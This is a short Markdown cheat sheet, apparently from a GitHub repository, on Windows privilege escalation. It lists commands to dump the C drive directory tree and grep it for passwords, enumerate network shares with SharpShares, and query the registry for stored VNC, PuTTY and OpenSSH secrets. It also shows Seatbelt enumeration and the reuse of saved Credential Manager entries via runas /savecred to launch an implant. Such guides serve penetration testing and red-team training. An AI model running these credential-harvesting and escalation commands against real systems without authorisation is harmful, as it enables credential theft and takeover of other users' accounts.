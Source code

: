 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

SeatBelt can also be used to search through the registry.

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

```
# List stored credentials
cmdkey /list

# User a stored credential
runas /savecred /user:admin implant.exe
```